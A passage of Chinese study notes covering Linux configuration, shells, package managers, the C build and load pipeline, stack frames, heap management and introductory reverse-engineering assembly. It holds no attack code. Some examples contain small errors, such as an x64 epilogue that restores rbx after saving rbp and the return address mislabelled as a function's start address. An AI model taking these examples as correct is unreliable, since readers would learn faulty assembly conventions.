| **命令行工具**   | 运行命令修改配置              | Windows 的 `netsh`、`reg add`      |
| **符号链接**     | 通过链接启用/禁用配置         | Windows 的快捷方式                 |
| **环境变量**     | 影响当前用户或系统行为        | Windows 的环境变量                 |

**核心理念**：**一切皆文件** → 配置也是文件，编辑文件 = 修改配置。

```text
/etc/                          ← 系统级配置（核心）
├── passwd                     ← 用户账户信息
├── shadow                     ← 用户密码（加密）
├── group                      ← 用户组信息
├── hostname                   ← 主机名
├── hosts                      ← 静态主机名解析
├── resolv.conf                ← DNS 解析器配置
├── fstab                      ← 文件系统挂载表
├── crontab                    ← 定时任务
├── sudoers                    ← sudo 权限配置
├── ssh/
│   └── sshd_config            ← SSH 服务配置
├── nginx/
│   └── nginx.conf             ← Nginx Web 服务器配置
├── systemd/
│   └── system/                ← systemd 服务单元
├── default/                   ← 各种服务的默认配置
├── init.d/                    ← SysV 启动脚本（传统）
└── ...

/etc/apt/                      ← Debian/Ubuntu 包管理器配置
/etc/yum.repos.d/              ← RHEL/CentOS 包管理器配置

/usr/local/etc/                ← 本地安装软件的配置
~/.bashrc                      ← 用户级 Shell 配置
~/.config/                     ← 用户级应用程序配置
```

**命令行配置工具**（本质是帮你快速编辑配置文件）：

| 配置项    | 命令行工具                         | 直接修改的配置文件               |
| :-------- | :--------------------------------- | :------------------------------- |
| 用户管理  | `useradd`、`usermod`、`userdel`    | `/etc/passwd`、`/etc/shadow`     |
| 组管理    | `groupadd`、`groupmod`、`groupdel` | `/etc/group`                     |
| 密码      | `passwd`                           | `/etc/shadow`                    |
| 主机名    | `hostnamectl`                      | `/etc/hostname`                  |
| 网络      | `ip`、`nmcli`、`netplan`           | `/etc/network/`、`/etc/netplan/` |
| 时区      | `timedatectl`                      | `/etc/localtime`                 |
| 语言/区域 | `localectl`                        | `/etc/locale.conf`               |
| 服务      | `systemctl`                        | `/etc/systemd/system/`           |
| 防火墙    | `iptables`、`ufw`、`firewall-cmd`  | `/etc/iptables/`、`/etc/ufw/`    |
| 包管理    | `apt`、`yum`、`dnf`、`pacman`      | `/etc/apt/`、`/etc/yum.repos.d/` |

**Linux命令不同发行版的配置差异**

| 配置项     | Debian/Ubuntu                      | RHEL/CentOS/Fedora                | Arch Linux         |
| :--------- | :--------------------------------- | :-------------------------------- | :----------------- |
| 包管理器   | `apt` / `apt-get`                  | `yum` / `dnf`                     | `pacman`           |
| 软件源     | `/etc/apt/sources.list`            | `/etc/yum.repos.d/*.repo`         | `/etc/pacman.conf` |
| 网络配置   | `/etc/netplan/` 或 `/etc/network/` | `/etc/sysconfig/network-scripts/` | `systemd-networkd` |
| 防火墙     | `ufw` 或 `iptables`                | `firewalld`                       | `iptables`         |
| 默认 Shell | bash                               | bash                              | bash               |
| 初始化系统 | systemd                            | systemd                           | systemd            |

修改服务配置文件后，需要**重载或重启服务**⚠️

| 实践                 | 说明                                                 |
| :------------------- | :--------------------------------------------------- |
| **备份原文件**       | `cp /etc/nginx/nginx.conf /etc/nginx/nginx.conf.bak` |
| **使用版本控制**     | 将 `/etc/` 关键配置纳入 Git                          |
| **测试后再生效**     | `nginx -t`、`systemctl reload` 前测试                |
| **添加注释**         | 在配置文件中记录修改原因和日期                       |
| **使用配置管理工具** | Ansible、Puppet、Chef 自动化管理                     |

### 3.8 Shell（bash/zsh）

**Shell 是 Linux/Unix 的命令行解释器**，相当于 Windows 的cmd/PowerShell ,是用户与内核之间的桥梁。

**Shell 的两面性**：

| 角色             | 说明                                      | 类比                         |
| :--------------- | :---------------------------------------- | :--------------------------- |
| **命令行解释器** | 接收用户输入的命令，执行并显示结果        | Windows 的 cmd               |
| **脚本编程语言** | 编写 .sh 脚本，支持变量、条件、循环、函数 | Windows 的批处理，但强大得多 |

**常见 Shell**

| Shell    | 全称                       | 特点                            | 默认发行版                     |
| :------- | :------------------------- | :------------------------------ | :----------------------------- |
| **bash** | Bourne Again SHell         | 最常用，功能全面，兼容 sh       | Ubuntu、Debian、RHEL、CentOS   |
| **zsh**  | Z Shell                    | 功能强大，插件丰富（Oh My Zsh） | macOS（Catalina+）、可手动安装 |
| **fish** | Friendly Interactive SHell | 开箱即用，语法高亮，自动建议    | 需手动安装                     |
| **dash** | Debian Almquist SHell      | 轻量，执行快                    | Debian/Ubuntu 的 `/bin/sh`     |
| **sh**   | Bourne SHell               | 最早的 Shell，POSIX 标准        | 通常链接到 bash 或 dash        |

zsh vs bash 对比

| 特性        | bash               | zsh                           |
| :---------- | :----------------- | :---------------------------- |
| 自动补全    | 基础（路径、命令） | 强大（选项、参数、进程、git） |
| 拼写纠正    | 无                 | 有（`sl` → `ls`）             |
| 全局别名    | 无                 | 有（`alias -g L=`）           |
| 共享历史    | 需配置             | 默认支持                      |
| 插件系统    | 有限               | Oh My Zsh 丰富                |
| 主题/提示符 | 基础               | 强大（Powerlevel10k）         |
| 数组索引    | 从0开始            | 从1开始                       |
| 兼容性      | 高（POSIX）        | 部分不兼容 sh                 |

学习基础 Linux 命令：[黑马程序员 Linux 零基础快速入门](https://www.bilibili.com/video/BV1n84y1i7td/?spm_id_from=333.1007.top_right_bar_window_default_collection.content.click&vd_source=7fa7e856eda46e43c108b4c5b7f76783)

速查 Linux 命令请看我的另一篇文章《Linux 命令》

### 3.9 包管理器（Package Manager）

**包管理器是 Linux 发行版中用于安装、升级、配置和删除软件的工具**。

**核心功能**：安装软件、卸载软件、升级软件、依赖管理、软件源管理、查询。

优点：统一软件源（可信）、自动解决、有数据库记录、能完整卸载、一个命令升级所有。

*为什么 Windows 没有包管理器？（传统上）*

1\. 软件厂商希望用户去官网下载（掌控分发）

2\. 用户习惯双击安装包（.exe/.msi）

3\. 软件安装会写注册表，不是简单复制文件

4\. 从未建立统一标准

三大主流包管理器对比：

| 特性           | apt                        | yum/dnf                       | pacman              |
| :------------- | :------------------------- | :---------------------------- | :------------------ |
| **发行版**     | Debian、Ubuntu、Linux Mint | RHEL、CentOS、Fedora          | Arch Linux、Manjaro |
| **包格式**     | .deb                       | .rpm                          | .pkg.tar.zst        |
| **依赖解决**   | APT 算法                   | libsolv                       | libalpm             |
| **命令风格**   | `apt install`              | `yum install` / `dnf install` | `pacman -S`         |
| **软件源文件** | `/etc/apt/sources.list`    | `/etc/yum.repos.d/*.repo`     | `/etc/pacman.conf`  |
| **学习曲线**   | 平缓                       | 平缓                          | 稍陡                |
| **滚动更新**   | 否（有 LTS 版本）          | 否                            | 是                  |

**常用命令**

`apt` (Debian/Ubuntu 系列) 

| 操作             | 命令                      | 说明                                 |
| :--------------- | :------------------------ | :----------------------------------- |
| 更新软件源列表   | `sudo apt update`         | 刷新可用包列表（必须）               |
| 升级所有包       | `sudo apt upgrade`        | 升级已安装的包                       |
| 完全升级         | `sudo apt full-upgrade`   | 升级+处理依赖变化                    |
| 安装软件         | `sudo apt install <包名>` |                                      |
| 卸载（保留配置） | `sudo apt remove <包名>`  |                                      |
| 卸载（删除配置） | `sudo apt purge <包名>`   |                                      |
| 搜索             | `apt search <关键词>`     |                                      |
| 查看包信息       | `apt show <包名>`         |                                      |
| 查看已安装       | `apt list --installed`    |                                      |
| 自动删除依赖     | `sudo apt autoremove`     | 删除不再需要的包                     |
| 清理缓存         | `sudo apt clean`          | 删除 `/var/cache/apt/archives/*.deb` |

`yum` / `dnf`（RHEL/CentOS/Fedora 系列）

| 操作         | 命令                        | 说明                   |
| :----------- | :-------------------------- | :--------------------- |
| 更新软件源   | `sudo dnf makecache`        | 刷新可用包列表（必须） |
| 升级所有包   | `sudo dnf upgrade`          | 升级已安装的包         |
| 安装         | `sudo dnf install <包名>`   |                        |
| 卸载         | `sudo dnf remove <包名>`    |                        |
| 搜索         | `dnf search <关键词>`       |                        |
| 查看信息     | `dnf info <包名>`           |                        |
| 查看已安装   | `dnf list installed`        |                        |
| 查看可用的   | `dnf list available`        |                        |
| 清理缓存     | `sudo dnf clean all`        |                        |
| 查找文件归属 | `dnf provides */nginx.conf` | 哪个包提供这个文件     |

`pacman`（Arch Linux 系列）

| 操作             | 命令                      | 说明                  |
| :--------------- | :------------------------ | :-------------------- |
| 同步软件源       | `sudo pacman -Sy`         | 刷新数据库            |
| 升级所有包       | `sudo pacman -Syu`        | **常用**（同步+升级） |
| 安装             | `sudo pacman -S <包名>`   |                       |
| 卸载（保留依赖） | `sudo pacman -R <包名>`   |                       |
| 卸载+依赖        | `sudo pacman -Rs <包名>`  | 递归删除不需要的依赖  |
| 卸载+依赖+配置   | `sudo pacman -Rns <包名>` | 彻底删除              |
| 搜索             | `pacman -Ss <关键词>`     |                       |
| 查看包信息       | `pacman -Qi <包名>`       |                       |
| 查看已安装       | `pacman -Q`               |                       |
| 查看孤儿包       | `pacman -Qdt`             | 不需要的依赖          |
| 清理缓存         | `sudo pacman -Sc`         | 删除旧包              |

**底层原理**

```text
用户执行 apt install nginx
        ↓
1. 解析软件源（/etc/apt/sources.list）
        ↓
2. 下载包列表（Packages.gz）
        ↓
3. 解析依赖关系
   - 查找 nginx 需要哪些其他包
   - 递归查找，建立依赖树
        ↓
4. 下载所有需要的 .deb 文件
   - 存放在 /var/cache/apt/archives/
        ↓
5. 校验完整性（MD5/SHA256）
        ↓
6. 解压并安装
   - 解压到根目录（/）
   - 运行安装脚本（preinst、postinst）
        ↓
7. 更新数据库
   - 记录已安装的包
   - /var/lib/dpkg/status（apt）
   - /var/lib/rpm/（rpm）
```

**软件源慢怎么办？**

更换国内镜像（清华、中科大、阿里云）

```bash
# Ubuntu 更换清华源
sudo sed -i 's/archive.ubuntu.com/mirrors.tuna.tsinghua.edu.cn/g' /etc/apt/sources.list
sudo apt update
```

------

## 第四部分：C/C++ 编程的底层视角

### 4.1 从代码到进程

```text
源代码 (.c/.cpp) → 预处理 → 编译 → 汇编 → 链接 → 可执行文件 (.exe/elf) → 加载 → 进程
```

**4.1.1 五个阶段详解**

1\.  预处理（Preprocessing）

**做什么**：处理以 `#` 开头的指令。

```c
// 源代码 main.c
#include <stdio.h>      // 把头文件内容贴进来
#define PI 3.14         // 把 PI 替换成 3.14
#define SQUARE(x) (x)*(x)

int main() {
    int a = SQUARE(5);
    printf("PI=%f\n", PI);
    return 0;
}
```

预处理后（`gcc -E main.c -o main.i`）：

```c
// stdio.h 的内容被完整展开（几百行）
// ...
int main() {
    int a = (5)*(5);
    printf("PI=%f\n", 3.14);
    return 0;
}
```

**输入**：`.c` / `.cpp` 文件
**输出**：`.i` 文件（预处理后的文本）
**做的事**：

- 头文件展开（`#include`）
- 宏替换（`#define`）
- 条件编译（`#ifdef`、`#ifndef`等）
- 删除注释

2\. 编译（Compilation）

**做什么**：将预处理后的 C/C++ 代码翻译成**汇编代码**（逆向工程中会讲解汇编代码）。

```c
// 源代码
int add(int a, int b) {
    return a + b;
}
```

编译后（`gcc -S main.i -o main.s`）：

```assembly
add:
    push   rbp
    mov    rbp, rsp
    mov    DWORD PTR [rbp-4], edi
    mov    DWORD PTR [rbp-8], esi
    mov    edx, DWORD PTR [rbp-4]
    mov    eax, DWORD PTR [rbp-8]
    add    eax, edx
    pop    rbp
    ret
```

**输入**：`.i` 文件（预处理结果）
**输出**：`.s` 文件（汇编代码）
**做的事**：

- 词法分析（拆成单词）
- 语法分析（检查语法）
- 语义分析（类型检查）
- 生成中间代码（IR）
- 优化
- 生成汇编代码

3\. 汇编（Assembly）

**做什么**：将汇编代码翻译成**机器码**（二进制）。

```assembly
add:
    push   rbp
    mov    rbp, rsp
```

汇编后（`gcc -c main.s -o main.o`）：

```text
55 48 89 e5 ... （机器码，不可读）
```

**输入**：`.s` 文件（汇编代码）
**输出**：`.o` / `.obj` 文件（目标文件，二进制）
**做的事**：

- 每条汇编指令 → 对应机器码
- 符号表（记录哪些符号是"未定义的"，比如 `printf`）
- 重定位信息（哪些地址需要后面链接时修正）

4\. 链接（Linking）

**做什么**：将多个目标文件（`.o`）和库文件合并成一个**可执行文件**。

```bash
# 假设有两个源文件
gcc -c main.c -o main.o
gcc -c utils.c -o utils.o
gcc main.o utils.o -o program
```

**链接主要解决**：跨文件的符号引用（比如 `main.c` 调用了 `utils.c` 里的函数）。

**链接类型**：

| 类型         | 说明                                 | 优缺点                |
| :----------- | :----------------------------------- | :-------------------- |
| **静态链接** | 把库的代码直接复制进可执行文件       | 文件大，但独立运行    |
| **动态链接** | 只记录引用的库名和函数名，运行时加载 | 文件小，但依赖DLL/.so |

```bash
# 静态链接（不推荐，体积大）
gcc -static main.c -o program

# 动态链接（默认）
gcc main.c -o program
```

**输入**：多个 `.o` / `.obj` 文件 + 库文件
**输出**：可执行文件（PE 或 ELF）
**做的事**：

- 符号解析（把 `call printf` 绑定到 `printf` 的真实地址）
- 地址重定位（修正变量/函数的地址）
- 合并节（把所有 `.text` 合并成一个大节）

5\. 加载（Loading）

**做什么**：操作系统把可执行文件读入内存，创建进程。



**加载器做的事**：

 1\. 读取可执行文件头，确定需要多少内存
 2\. 为进程分配虚拟地址空间
 3\. 把文件中的代码段、数据段映射到内存
 4\. 设置栈和堆
 5\. 设置参数（`argc`、`argv`）
 6\. 跳转到入口点（`_start` → `main`）

**4.1.2 内存布局（一个进程在内存中的样子）**



### 4.2 函数调用与栈

- 函数调用就是**通过栈（stack）来传递参数、保存返回地址、存放局部变量**。调用时压栈，返回时弹栈，栈帧是函数在栈上划分的“工作区”。没有栈，函数就不知道回哪里、局部变量会冲突、参数没地方放。

**函数调用四步**

第 1 步：参数传递

**x86（32 位）**：全部压栈，从右向左压。

```asm
push  3            ; 第三个参数
push  2            ; 第二个参数
push  1            ; 第一个参数
call  func
add   esp, 12      ; 调用者清理栈（cdecl 约定）
```

**x64（64 位）**：前 6 个（Linux）或 4 个（Windows）用寄存器，其余压栈。

```asm
; x64 Linux 调用 func(1,2,3,4,5,6,7)
mov   edi, 1      ; 第 1 个（rdi）
mov   esi, 2      ; 第 2 个（rsi）
mov   edx, 3      ; 第 3 个（rdx）
mov   ecx, 4      ; 第 4 个（rcx）
mov   r8d, 5      ; 第 5 个（r8）
mov   r9d, 6      ; 第 6 个（r9）
push  7           ; 第 7 个（压栈）
call  func
```

第 2 步：保存返回地址并跳转

**`call` (调用) 指令干了什么？**

```asm
call  func
; 等价于：
push  rip         ; 把下一条指令的地址压栈
jmp   func        ; 跳转到 func
```

**`ret` (return) 指令干了什么？**

```assembly
ret
; 等价于：
pop   rip         ; 把栈顶的地址弹回 rip
                  ; 然后 CPU 继续执行
```

第 3 步：被调函数建立自己的栈帧（函数头）

**标准函数头（x64）：**

```assembly
func:
    push  rbp          ; 保存旧的 rbp
    mov   rbp, rsp     ; rbp 锚定当前栈顶（固定参照点）
    sub   rsp, 32      ; 给局部变量腾空间
```

第 4 步：被调函数清理栈帧并返回（函数尾）

**标准函数尾（x64）：**

```assembly
    leave
    ret
```

**`leave` 指令干了什么？**

```assembly
leave
; 等价于：
mov   rsp, rbp     ; 回收局部变量空间
pop   rbp          ; 恢复旧的 rbp
```

然后 `ret` 把返回地址弹回 `rip`，回到调用者的下一条指令。

**栈溢出（Stack Overflow）**是基于函数调用与栈机制，放到pwn里了，这里不展开。

### 4.3 内存管理

- 内存管理就是程序如何**申请**、**使用**、**释放**内存。栈自动管理，堆手动管理（`malloc`/`free`），搞错了就会内存泄漏或崩溃。



**4.4.1 栈 vs 堆**

| 对比项       | 栈（Stack）                      | 堆（Heap）                            |
| :----------- | :------------------------------- | :------------------------------------ |
| **管理方式** | 编译器自动，函数进出自动分配回收 | 程序员手动，`malloc`/`free`           |
| **速度**     | **极快**（移动栈指针）           | 慢（需要查找空闲块、系统调用）        |
| **大小**     | 小（默认 1~8 MB）                | 大（理论接近内存上限）                |
| **生命周期** | 随函数，函数结束就销毁           | 程序员决定，`free` 才释放             |
| **分配方式** | 编译器插指令                     | 调用库函数                            |
| **碎片**     | 无                               | 有（外碎片、内碎片）                  |
| **典型错误** | 栈溢出（覆盖返回地址）           | 内存泄漏、double free、use-after-free |

```c
void func() {
    int stack_var = 10;        // 栈上，函数结束自动销毁
    int *heap_var = malloc(100); // 堆上，100 字节，必须手动 free
    // ...
    free(heap_var);             // 忘记 free → 内存泄漏
}  // stack_var 自动消失，heap_var 变量本身消失但内存没释放
```

**4.4.2 堆的内存管理（手动）**

堆管理器是操作系统提供的“内存批发商”，帮你批量向内核拿大块内存，再切成小块零售给你的 `malloc` 调用。`mmap`（Linux）和 `VirtualAlloc`（Windows）是越过堆管理器直接向内核“批发”内存的方式。

堆管理器不是直接每次 `malloc` 都 `brk`/`mmap` 去向内核要内存，而是：

1. 批量向内核申请大块内存（`brk` 或 `mmap`）。
2. 自己切成小块，维护**空闲链表**（free list）。
3. `malloc` 时找一块合适的返回。
4. `free` 时把块链回空闲链表。

才会系统调用。

**问题**：如果每次 `malloc(10)` 都直接向内核申请 10 字节，会有两个问题：

- **太慢**：系统调用（`syscall`）开销大
- **浪费**：内核分配最少 4096 字节（一页）

**解决方案**：堆管理器

- 向内核一次性申请一大块（例如 1MB）
- 切成一个个小块（8、16、32、64 字节），维护一个“空闲链表”
- `malloc(10)` → 从空闲链表中找一块 16 字节的返回
- `free` → 归还给堆管理器（不是立即还给内核）

**4.4.3 内存管理的常见错误**

| 错误                     | 说明                   | 后果                         |
| :----------------------- | :--------------------- | :--------------------------- |
| **内存泄漏**             | `malloc` 后不 `free`   | 程序内存越用越多，最终 OOM   |
| **Double Free**          | 对同一指针 `free` 两次 | 破坏 free list，可能被利用   |
| **Use-After-Free (UAF)** | `free` 后继续使用指针  | 数据错乱，可能被利用         |
| **堆溢出**               | 写入超出申请范围       | 覆盖相邻块元数据，可能被利用 |
| **野指针**               | 指针未初始化或已释放   | 访问非法地址，崩溃           |
| **栈溢出**               | 写入超出栈数组范围     | 覆盖返回地址，常被利用       |

### 4.4 系统调用封装

系统调用封装 = 把内核提供的“原始入口”（系统调用）包装成方便调用的函数（如 `printf`、`read`、`write`），让程序员不用写汇编就能请求内核服务。

**系统调用是用户态进入内核的唯一通道**，但它很“原始”：需要手动指定系统调用号（如 `write` 是 1），需要自己把参数放入指定寄存器（`rdi`、`rsi`、`rdx`...），需要执行 `syscall` 指令，需要处理错误返回值......

```text
用户程序：printf("hello\n")
    ↓
C 标准库（glibc / msvcrt）
- printf：格式化字符串
- puts：简单输出
    ↓
系统调用封装函数（glibc 的 write 包装）
- 设置系统调用号（rax = 1）
- 设置参数（rdi, rsi, rdx）
- 执行 syscall 指令
- 处理返回值
    ↓
内核：sys_write
```

一个完整的例子：`write` 系统调用

原始系统调用（不封装，直接写汇编）

```assembly
; Linux x64 直接系统调用
mov  rax, 1          ; write 的系统调用号
mov  rdi, 1          ; 第 1 个参数：fd = 1（stdout）
lea  rsi, [rip+msg]  ; 第 2 个参数：字符串地址
mov  rdx, 6          ; 第 3 个参数：长度 6
syscall              ; 进入内核
msg: db 'hello', 10
```

glibc 的封装（用 `write` 函数）

```c
#include <unistd.h>
int main() {
    write(1, "hello\n", 6);  // 清晰多了
    return 0;
}
```

编译后（glibc 封装内部）

```assembly
; main 函数调用 write
mov  edi, 1          ; 第 1 个参数
lea  rsi, [rip+msg]  ; 第 2 个参数
mov  edx, 6          ; 第 3 个参数
call write@plt       ; 调用 glibc 的包装函数

; write@plt 内部最终会：
mov  eax, 1          ; 系统调用号
syscall              ; 进入内核
```

`printf` 比 `write` 更高级。

`write(1, "hello\n", 6)` → 需要手动加换行。
`printf("hello\n")` → 自动格式化、缓冲区管理。

这就是为什么写`printf`还要调用`stdio.h`的原因。

那python的`print`为什么不需要调用？

**C 是一种“声明后使用”的静态编译语言，而 Python 是一种“边执行边创建”的动态解释语言。**

| 特性                          | C 语言                                                       | Python                                                       |
| :---------------------------- | :----------------------------------------------------------- | :----------------------------------------------------------- |
| **执行模型**                  | 静态编译，预先编译成机器码。                                 | 动态解释，运行时逐行执行。（本来就慢，不这样会更慢）         |
| **`printf` / `print` 的位置** | 放在外部标准库（如 `libc.so`）中。                           | 作为**内置函数**内嵌在解释器中。                             |
| **使用前提**                  | **必须**有函数声明。                                         | 无需声明，直接调用（因为它是内置的）。                       |
| **提供声明/引入的方式**       | 通过 `#include` 预处理器指令，将头文件内容**文本包含**进来。 | 通过 `import` 语句，在运行时**动态加载**模块。               |
| **查找失败的结果**            | **编译错误**：程序根本无法生成。                             | **运行错误**：程序能启动，执行到 `print` 时如果没找到才会报 `NameError`。 |

------

## 第五部分：逆向工程需要的底层基础

**逆向工程 = 通过分析程序的二进制文件，理解它的行为和逻辑。**

正常开发：源代码 → 编译 → 可执行文件
逆向工程：可执行文件 → 反汇编/反编译 → 理解逻辑

### 5.1 核心工具

| 工具                                       | 用途                                   |
| :----------------------------------------- | :------------------------------------- |
| **IDA Pro**（或 **Ghidra**）               | 静态分析：反汇编、看伪代码             |
| **x64dbg**（Windows） / **gdb**（Linux）   | 动态调试：单步执行、改寄存器、改内存   |
| **PE-bear** / **CFF Explorer**             | 查看 PE 文件结构（导入表、节、入口点） |
| **Process Monitor** / **Process Explorer** | 监控进程行为（文件、注册表、网络）     |
| **Cheat Engine**                           | 内存修改、找基址（游戏逆向）           |
| **strings**                                | 提取程序中的字符串                     |

### 5.2 反汇编基础

**5.2.1 指令与机器码**

1\. 指令的组成

```assembly
;机器码（字节）        →  汇编指令
C7 45 F8 0A 00 00 00 →  mov DWORD PTR [rbp-8], 10
```

**机器码格式**（x86/x64）：

| 部分             | 含义                       | 示例                    |
| :--------------- | :------------------------- | :---------------------- |
| 操作码（Opcode） | 做什么操作                 | `C7` = mov 立即数到内存 |
| ModR/M           | 寻址模式 + 寄存器          | `45` = [rbp-xxx]        |
| SIB              | 比例/索引/基址（复杂寻址） | 可选                    |
| 立即数           | 直接数值                   | `0A 00 00 00` = 10      |
| 位移             | 偏移量                     | `F8` = -8               |

**必会的汇编指令**

| 类别         | 指令        | 含义                               |
| :----------- | :---------- | :--------------------------------- |
| **数据传送** | `mov a, b`  | a = b                              |
|              | `lea a, b`  | a\* = b\*                          |
|              | `push x`    | 把 x 压栈                          |
|              | `pop x`     | 出栈到 x                           |
| **算术**     | `add a, b`  | a += b                             |
|              | `sub a, b`  | a -= b                             |
|              | `xor a, b`  | a ^= b（常用于清零）               |
| **比较**     | `cmp a, b`  | 计算 a - b，不存结果，只影响标志位 |
| **跳转**     | `jz / je`   | 相等则跳                           |
|              | `jnz / jne` | 不相等则跳                         |
|              | `jg / jge`  | 大于 / 大于等于                    |
|              | `jl / jle`  | 小于 / 小于等于                    |
|              | `jmp`       | 无条件跳转                         |
| **函数**     | `call func` | 调用函数                           |
|              | `ret`       | 返回                               |
| **无操作**   | `nop`       | 无操作（常用于 patch）             |

2\. 常见寄存器

| 类别             | x86 (32位)               | x64 (64位)        | 主要用途                   |
| :--------------- | :----------------------- | :---------------- | :------------------------- |
| 通用寄存器       | `eax`                    | `rax`             | 存返回值                   |
| 通用寄存器       | `ebx`                    | `rbx`             | 存地址                     |
| 通用寄存器       | `edi, ecx, edx`          | `rdi, rcx, rdx`   | 存临时存数据               |
| 通用寄存器(额外) | 无                       | `r8, r9, ... r15` | 更多临时变量               |
| 指针寄存器       | `ebp`                    | `rbp`             | 栈帧基址                   |
| 指针寄存器       | `esp`                    | `rsp`             | 栈顶指针                   |
| 指令指针         | `eip`                    | `rip`             | 指向当前执行的指令         |
| 标志寄存器       | `eflags`                 | `rflags`          | 存状态（进位、溢出、零等） |
| 段寄存器         | `cs, ds, ss, es, fs, gs` | 同左              | 内存段选择（现代很少用）   |

3\. 汇编代码中的栈

**重要观念**：函数调用时生成的栈帧，在汇编层面**根本不是一个必须存在的“结构”**。`push`, `pop`, `call`, `ret` 等指令直接操作 `rsp` 栈顶指针。

[rbp-4]、[rbp+4]是干什么的？

```text
假设栈初始在 0x1000：
初始状态：
地址        内容
0x1008		???	← rsp 指向这里（栈顶）
0x1004		???
0x1000		???

执行 push 123：
1. rsp = rsp - 4  (栈指针先减4)
地址        内容
0x1008		???
0x1004		???	← rsp 指向这里
0x1000		???

2. 把 123 写入 rsp 指向的地址
地址        内容
0x1008		???
0x1004		123	← rsp 指向这里
0x1000		???

执行 pop eax：
1. 把 rsp 指向的地址的值(123)读到 eax
地址        内容
0x1008		???
0x1004		123	← rsp 指向这里（还在）
0x1000		???

2. rsp = rsp + 4  (栈指针加4，收回)
地址        内容
0x1008		???	← rsp 指向这里
0x1004		123	← 数据还在，但rsp已移走
0x1000		???
```

**栈帧**只是编译器为了方便寻址（通过 `rbp`）和调试而采用的**“惯例”**。在汇编眼里，栈就是 `rsp` 这个指针，压`push`它就减小，弹`pop`它就增大，没有“帧”的概念。

**✅push让rsp减小（栈向下长），pop让rsp增大（栈向上缩）。这是x86/x64的设计选择，不是物理规律。不需要问“为什么”，只需要记住“就是这样”。**

**用途1：记住函数首地址（`call` + `ret`）**

- `call`：先把“门牌号”（下一条指令的地址）**压栈**，然后**跳走**。
- `ret`：把栈顶的“门牌号”**弹出**，然后**跳回去**。

```assembly
_start:
    call  func     ; 把 `mov eax, 0` 的地址压栈，再跳转到 `func`
    mov   eax, 0
    ret

func:
    push  rbp
    ...
    ret            ; 从栈顶弹出地址，就是 `mov eax, 0` 的地址，跳回去
```

**用途2：传递参数（当寄存器不够用时）**

x64 Linux 参数优先用 `rdi`, `rsi`, `rdx`, `rcx`, `r8`, `r9` 传。**第7个及以后**的参数就只能压栈了。

```assembly
; 参数1-6在寄存器里
mov  r9,  param6
mov  r8,  param5
mov  rcx, param4
mov  rdx, param3
mov  rsi, param2
mov  rdi, param1
; 参数7开始压栈
push param7   ; 第7个参数最后压，因为它最靠近栈顶
call func
add  rsp, 8   ; 调用完清理栈
```

**用途3：寄存器的“暂存室”（保护现场）**

函数里想用 `rbx` 做事，但调用者可能正用着它。这就是**函数开头结尾保护 `rbx`**的来源了。

```assembly
; x86 函数常见首尾
push ebp		; 把 ebp 原值存栈上
mov ebp, esp	; 放心用 ebp 寄存器
sub esp, 0x20
...
pop ebp			; 离开前恢复原值
ret

; x64 函数常见首尾
push rbp		; 把 rbp 原值存栈上
mov rbp, rsp	; 放心用 rbp 寄存器
sub rsp, 0x20
...
pop rbx			; 离开前恢复原值
ret
```

**5.2.2 寻址模式**

**寻址模式 = CPU 如何找到操作数**

| 模式           | 汇编示例                | 含义                   | 机器码示例          |
| :------------- | :---------------------- | :--------------------- | :------------------ |
| **立即寻址**   | `mov eax, 123`          | 直接用数值 123         | `B8 7B 00 00 00`    |
| **寄存器寻址** | `mov eax, ebx`          | 从寄存器取数           | `89 D8`             |
| **直接寻址**   | `mov eax, [0x403000]`   | 从内存地址 0x403000 取 | `A1 00 30 40 00`    |
| **寄存器间接** | `mov eax, [rbx]`        | 把 rbx 的值作为地址    | `48 8B 03`          |
